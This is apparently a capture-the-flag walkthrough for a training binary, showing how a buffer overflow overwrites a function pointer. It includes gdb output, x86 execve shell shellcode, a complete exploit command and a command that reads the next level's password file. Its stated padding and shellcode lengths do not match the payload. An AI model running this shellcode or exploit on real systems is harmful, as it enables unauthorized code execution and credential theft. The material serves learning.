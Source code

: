 # Level 09 Walkthrough

## Binary analysis

The binary uses function pointers and user-controlled data, making it vulnerable to a buffer overflow. By overflowing a buffer, we can inject shellcode and overwrite a function pointer to execute arbitrary code.

### Key decompiled code

The program allocates memory and uses user input to set up function pointers and buffers. Eventually, it calls a function pointer that can be overwritten via a buffer overflow.
Example vulnerable code:
```c
char buffer[...];
// ...
strcpy(buffer, user_input); // vulnerable
// ...
call function_pointer; // can be overwritten
```

When given a big input, we can see a segfaults happening here:
```
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) p/x $eip
$1 = 0x8048682
(gdb) disass
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
=> 0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
```

On those lines, eax is dereferenced twice and moved to edx, which is later called as a function pointer.

## Exploitation

Let's get the address of our buffer, we know it's the return value of setAnnotation call.

```
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) r ABCDEFGHIJKLMNOPQRSTUVWXYZ
Starting program: /home/user/level9/level9 ABCDEFGHIJKLMNOPQRSTUVWXYZ

Breakpoint 1, 0x0804867c in main ()
(gdb) x/s $eax
0x804a00c:	 "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
```

We find the offset to be 108 bytes thanks to the cyclic pattern.
```
(gdb) b *0x08048680
Breakpoint 1 at 0x8048680
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6A
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6A

Breakpoint 1, 0x08048680 in main ()
(gdb) x/s $eax
0x804a078:	 "Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6A"
```

We craft a payload so that there is one address to jump to in the buffer then to jump to the shellcode.
```
0x804a00c + 4 = 0x804a010
```

The padding is 108 - 4 (the address to jump to the shellcode) - 29 (length of the shellcode) = 75
```
payload = b"\x08\x04\xa0\x10"[::-1] + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + b"A"*76 + b"\x08\x04\xa0\x0c"[::-1]
```

## Commands used

```
./level9 $(python -c 'print(b"\x08\x04\xa0\x10"[::-1] + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + b"A"*76 + b"\x08\x04\xa0\x0c"[::-1])')
cat /home/user/bonus0/.pass
```

## Result

After running the exploit, we get the password for bonus0:

```
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```